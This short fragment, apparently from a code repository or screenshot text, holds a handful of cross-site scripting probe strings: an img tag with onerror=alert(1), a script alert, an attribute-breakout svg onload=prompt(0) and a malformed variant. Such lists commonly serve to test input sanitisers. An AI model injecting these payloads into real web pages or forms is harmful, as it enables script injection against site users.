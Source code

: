 `# &lt;img src=x onerror=alert(1)

"&lt;script>alert('test')</script>"
<a></a>
&lt;img/src=x/on-error="alert(1)</script>

"><svg/onload=prompt(0)>
`
